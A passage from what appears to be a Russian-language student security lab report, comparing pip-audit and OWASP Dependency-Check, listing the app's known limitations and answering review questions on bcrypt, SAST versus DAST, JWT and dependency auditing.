поэтому в базах PyPI и OSV её нет. Здесь ключ случайный (384 бита), и CVE подавлена в
`dependency-check-suppressions.xml` с этим обоснованием; остальные находки по-прежнему роняют CI.

После перехода на lock-файл uv пишет имя пакета как `pyjwt`, а не `PyJWT`. Для такого имени
Dependency-Check подбирает только CPE `pyjwt_project:pyjwt`, а CVE была привязана к
`jwt_project:jwt`, поэтому она больше не находится. Версия та же, поменялся только регистр букв:
наглядный пример неточного сопоставления по CPE. Подавление оставлено на случай, если CVE снова
сопоставится.

## pip-audit и OWASP Dependency-Check

| | pip-audit | OWASP Dependency-Check |
|---|---|---|
| База | PyPA Advisory Database (PyPI), по желанию OSV | NVD, сопоставление по CPE |
| Как находит пакет | точное имя и версия пакета PyPI | угадывает CPE по имени, отсюда неточности |
| Поддержка Python | основная задача | экспериментальная (`--enableExperimental`) |
| Ложные срабатывания | мало | больше: неточные CPE, оспоренные CVE |
| Результат здесь | 22 пакета, поймал CVE в Werkzeug | 26 зависимостей, находил оспоренную CVE в PyJWT |

Инструменты дополняют друг друга: pip-audit точнее для Python, Dependency-Check шире по охвату
(NVD, другие экосистемы), но требует разбора находок.

## Ограничения

- **Токен нельзя отозвать** до истечения 15 минут: нет выхода и чёрного списка токенов.
- **Лимит входа в памяти процесса:** сбрасывается при перезапуске, не работает между процессами;
  за прокси все клиенты получат IP прокси, нужны `ProxyFix` и Redis. Лимит только по IP, по
  аккаунту нет.
- **Нет HTTPS в приложении:** в продакшене нужен обратный прокси с TLS.
- **SQLite и `create_all` без миграций**, пользователи создаются только через CLI.
- **В lock-файле нет хэшей пакетов:** подмену пакета в индексе это не поймает
  (`uv pip compile --generate-hashes`).
- **Образ Dependency-Check action не закреплён** (`:latest`), и база NVD берётся из него
  (`--noupdate`), поэтому её свежесть зависит от даты сборки образа.

## Ответы на контрольные вопросы

**1. Почему bcrypt лучше SHA-256 для паролей?** SHA-256 быстрый: на GPU миллиарды хэшей в секунду,
утёкшую базу переберут по словарю. bcrypt медленный намеренно, скорость задаётся числом раундов
(здесь 2^12), и ему нужна память, что мешает перебору на GPU. Соль хранится в хэше, поэтому
одинаковые пароли дают разные хэши и радужные таблицы не работают.

**2. Чем SAST отличается от DAST?** SAST анализирует исходный код без запуска (bandit, правила `S`
в ruff): находит опасные вызовы рано, прямо в CI, и показывает строку, но не видит поведение
работающего приложения. DAST атакует запущенное приложение снаружи (например, OWASP ZAP): видит
заголовки, сессии и ошибки конфигурации, но не показывает строку кода и требует стенда.

**3. Как работает JWT?** Три части в Base64URL через точку: заголовок (`{"alg": "HS256", "typ":
"JWT"}`), payload с claims (`sub`, `iss`, `iat`, `exp`) и подпись HMAC-SHA256 от первых двух
частей на секрете сервера. Payload не шифруется. Сервер пересчитывает подпись своим секретом и
сравнивает: если payload изменили, подпись не совпадёт. Затем проверяет алгоритм, срок и
издателя. Состояние на сервере не хранится, поэтому отозвать токен до срока нельзя.

**4. Чем опасно не проверять зависимости?** Уязвимость в любой библиотеке становится уязвимостью
приложения (OWASP A06), пример здесь: CVE в Werkzeug. Без аудита такие CVE месяцами живут в
продакшене, плюс можно получить вредоносный пакет (supply chain). Поэтому в CI два SCA-сканера,
все зависимости, включая транзитивные, закреплены в lock-файле, и сборка падает на известной
уязвимости.
